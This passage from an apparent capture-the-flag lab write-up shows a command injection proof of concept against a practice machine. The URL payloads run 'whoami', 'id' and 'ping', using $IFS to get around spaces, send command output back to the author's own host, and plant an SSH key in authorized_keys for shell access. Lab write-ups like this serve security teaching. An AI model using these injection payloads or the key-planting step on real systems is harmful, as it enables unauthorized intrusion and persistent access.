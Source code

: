 #### Command Injection POC

Now with both `nc` listening on 80 and `tcpdump` listening for ICMP, I
crafted my next payload, `http://10.10.14.6/$(whoami)`, and it returned
the username, web:



    10.10.10.209 - - [01/Nov/2020 10:12:53] "GET /web HTTP/1.1" 404 -



If I change the command to `id`, I get up the first space,
"uid=1001(web)":



    10.10.10.209 - - [01/Nov/2020 10:13:33] "GET /uid=1001(web) HTTP/1.1" 404 -



Trying to do more complex commands failed as it became clear that adding
a space was breaking things. I tried using `$IFS` to represent space (a
common injection technique), and eventually found that that plus a
combination of `'` around the arguments could get it to work with
something like:



    http://10.10.14.6/$(ping$IFS-c$IFS'1'$IFS'10.10.14.6')



And I'd get a ping:



    root@kali# tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    10:16:12.333148 IP 10.10.10.209 > 10.10.14.6: ICMP echo request, id 3, seq 1, length 64
    10:16:12.333176 IP 10.10.14.6 > 10.10.10.209: ICMP echo reply, id 3, seq 1, length 64



#### Shell via SSH

It took a bit of playing around with single quotes again, but I got the
injection to write an SSH key to the current user, web (which I know
from `whoami` injection). I'm using a ed25519 key (because they are
really short). It turns out there is no `.ssh` directory in `/home/web`,
so I'll need to create one with:



    http://10.10.14.6/$(mkdir$IFS'/home/web/.ssh')



Then I'll write my key:



    http://10.10.14.6/$(echo$IFS'ssh-ed25519'$IFS'AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d'>'/home/web/.ssh/authorized_keys')
